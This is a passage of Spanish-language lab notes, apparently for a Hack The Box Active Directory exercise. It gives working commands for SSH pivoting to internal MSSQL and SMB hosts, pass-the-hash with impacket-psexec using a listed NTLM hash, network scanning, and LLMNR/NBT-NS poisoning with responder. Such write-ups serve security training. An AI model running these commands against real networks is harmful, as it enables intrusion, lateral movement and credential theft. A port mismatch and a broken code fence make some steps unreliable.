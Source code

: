 
- Para acceder a ciertos servicios (p. ej: mssql). En este caso no tendríamos acceso a 172.16.7.60 desde la máquina atacante
    - pwnbox: Configuración pivoting
        ```bash
        ssh -NfL 11433:172.16.7.60:1433 htb-student@$target
        ```
    - pwnbox: Conexión vía mssql
        ```bash
        impacket-mssqlclient INLANEFREIGHT/netdb@localhost -port 11433
        ```
- Para acceder a `impacket-pssexec`
    - pwnbox: configuración pivoting (hay que conectarse forzosamente al puerto 445)
        ```bash
        ssh -NfL 445:172.16.7.50:445 htb-student@$target        ```
    - pwnbox: conexión vía impacket
        ```bash
        impacket-psexec mssqlsvc@localhost -hashes :8c9555327d95f815987c0d81238c7660 -port 4445
        ```

### Obtain a password hash for a domain user account that can be leveraged to gain a foothold in the domain. What is the account name?


- Comprobamos que nuestra dirección de red es `172.16.7.240/23`
- Ejecutamos un ping masivo para descubrir hosts vivos
    ```bash
    fping -asgq 172.16.7.240/23
    ```
- Con los hosts descubiertos, ejecutamos `nmap`
    ```bash
    sudo nmap -v -A -iL hosts.txt -oN /home/htb-student/Documents/host-enum -oN allTargets
    ```
    descubriendo: 
    - dominio: `INLANEFREIGHT.LOCAL`
    - DC: `172.16.7.3`
    - MS01: `172.16.7.50`
    - SQL01: `172.16.7.60`

- Configuramos `/etc/resolv.conf` del siguiente modo: 
    ```bash
    cat /etc/resolv.conf
    <SNIP>
    #nameserver 1.1.1.1
    #nameserver 8.8.8.8

    domain INLANEFREIGHT.LOCAL                       
    nameserver 172.16.7.3
    ```

- Hacemos LLMNR/NBT-NS Possoning con `responder`
    ```bash
    sudo responder -I ens224
    ```

